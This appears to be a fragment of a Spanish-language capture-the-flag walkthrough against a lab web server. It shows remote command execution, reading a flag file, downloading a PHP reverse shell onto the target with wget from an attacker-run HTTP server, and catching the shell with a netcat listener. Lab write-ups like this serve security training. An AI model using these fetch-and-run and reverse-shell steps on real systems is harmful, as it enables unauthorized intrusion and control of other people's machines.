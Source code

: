   
Enter Command $ls -all /home/www-data  
systemtotal 12  
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .  
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..  
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt  
  
  
Enter Command $cat /home/www-data/flag.txt  
system6470e394cbf6dab6a91682cc8585059b

SEGUNDA BANDERA:
root@ip-10-10-49-31:~#cp /usr/share/webshells/php/php-reverse-shell.php .  
  
  
#EDIT IP and PORT   
root@ip-10-10-49-31:~# nano php-reverse-shell.php   
  
root@ip-10-10-49-31:~# python3 -m http.server 8090  
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...  
  
root@ip-10-10-49-31:~# nc -lvp 1234                
listening on [any] 1234 ...

Enter Command $wget http://10.9.102.33:8090/php-reverse-shell.php  
  
Enter Command $ls -all  
systemtotal 156  
drwxrwxrwx 4 root     root      4096 Sep 20 00:46 .  
drwxr-xr-x 3 root     root      4096 Jul 26  2019 ..  
-rw-r--r-- 1 root     root       163 Jul 26  2019 .htaccess  
-rwxrwxrwx 1 root     root      1427 Jul 26  2019 README.md  
drwxrwxrwx 9 root     root      4096 Jul 26  2019 assets  
-rwxrwxrwx 1 root     root       193 Jul 26  2019 composer.json  
-rwxrwxrwx 1 root     root      6502 Jul 26  2019 contributing.md  
drwxrwxrwx 9 root     root      4096 Jul 26  2019 fuel  
-rwxrwxrwx 1 root     root     11802 Jul 26  2019 index.php  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.1  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.10  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.11  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.12  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.2  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.3  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.4  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.5  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.6  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.7  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.8  
-rw-r--r-- 1 www-data www-data  5493 Sep  4 12:03 php-reverse-shell.php.9  
-rwxrwxrwx 1 root     root        30 Jul 26  2019 robots.txt

root@ip-10-10-49-31:~# nc -lvp 1234                
listening on [any] 1234 ...  
10.10.170.216: inverse host lookup failed: Unknown host  
connect to [10.10.155.12] from (UNKNOWN) [10.10.142.14] 40892  
